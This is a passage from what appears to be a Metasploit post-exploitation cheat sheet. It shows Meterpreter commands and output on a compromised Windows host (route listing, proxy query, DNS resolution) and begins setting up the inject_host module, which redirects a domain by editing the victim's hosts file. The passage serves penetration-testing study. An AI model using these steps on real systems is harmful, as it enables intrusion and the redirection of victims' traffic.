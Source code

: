 ```

    Subnet           Netmask          Gateway    Metric  Interface
    ------           -------          -------    ------  ---------
    0.0.0.0          0.0.0.0          10.0.2.1   25      12
    10.0.2.0         255.255.255.0    10.0.2.15  281     12
    10.0.2.15        255.255.255.255  10.0.2.15  281     12
    10.0.2.255       255.255.255.255  10.0.2.15  281     12
    127.0.0.0        255.0.0.0        127.0.0.1  331     1
    127.0.0.1        255.255.255.255  127.0.0.1  331     1
    127.255.255.255  255.255.255.255  127.0.0.1  331     1
    224.0.0.0        240.0.0.0        127.0.0.1  331     1
    224.0.0.0        240.0.0.0        10.0.2.15  281     12
    255.255.255.255  255.255.255.255  127.0.0.1  331     1
    255.255.255.255  255.255.255.255  10.0.2.15  281     12

No IPv6 routes were found.
```

* **Proxy**

```
meterpreter > getproxy
Auto-detect     : Yes
Auto config URL :
Proxy URL       :
Proxy Bypass    :
```

* **Resolve DNS**

```
meterpreter > resolve -h
Usage: resolve host1 host2 .. hostN [-h] [-f IPv4|IPv6]


OPTIONS:

    -f   Address family - IPv4 or IPv6 (default IPv4)
    -h   Help banner.

meterpreter > resolve 10.0.2.3

Host resolutions
================

    Hostname  IP Address
    --------  ----------
    10.0.2.3  10.0.2.3
```

* **Inject DNS Hosts**

```
msf > use post/windows/manage/inject_host

msf post(windows/manage/inject_host) > options

Module options (post/windows/manage/inject_host):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN                    yes       Domain name for host file manipulation.
   IP                        yes       IP address to point domain name to.
   SESSION                   yes       The session to run this module on

msf post(windows/manage/inject_host) > set domain <domain_name>

```